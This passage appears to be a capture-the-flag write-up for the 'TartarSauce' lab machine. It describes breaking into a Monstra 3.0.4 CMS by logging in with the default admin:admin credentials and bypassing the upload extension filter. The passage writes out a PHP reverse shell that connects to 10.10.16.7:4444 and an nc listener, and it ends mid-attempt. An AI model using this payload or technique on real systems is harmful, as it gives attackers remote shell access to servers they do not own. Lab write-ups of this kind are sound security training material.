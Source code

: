 ```bash
http://10.10.10.88/webservices/webservices/monstra-3.0.4/
```

![image.png]({{ site.baseurl }}/assets/tartarsauce/image%201.png)

We get the version of the CMS as well:

```bash
Monstra 3.0.4
```

Playing around with the site, most hyperlink redirect to 404 Not found. Clicking on Pages Manager takes us to an admin login page:

![image.png]({{ site.baseurl }}/assets/tartarsauce/image%202.png)

We try default credential admin:admin, we are in:

![image.png]({{ site.baseurl }}/assets/tartarsauce/image%203.png)

We have upload file functionality. Let search up exploit associated with monstra 3.0.4 version. We find this:

https://www.exploit-db.com/exploits/43348

From the exploit, it seems we can bypass extension restriction by either using php7 or PHP, then we can execute php code. Let’s try and get a reverse shell. First create a php reverse shell payload:

```bash
<?php
$sock=fsockopen("10.10.16.7",4444);
$proc=proc_open("/bin/sh -i", array(0=>$sock, 1=>$sock, 2=>$sock), $pipes);
?>

```

Let’s also start a listener:

```bash
nc -lnvp 4444
```

Now upload the file. However, it was unsuccessful. Let’s turn on intercept on Burp and see why it failed:

Navigating around the site, we also find directories on the backend are writable:

![image.png]({{ site.baseurl }}/assets/tartarsauce/image%204.png)

Also .htaccess and index.php are also writable:

![image.png]({{ site.baseurl }}/assets/tartarsauce/image%205.png)

Let’s try creating a new page:

```bash
http://10.10.10.88/webservices/monstra-3.0.4/admin/test.PHP
```

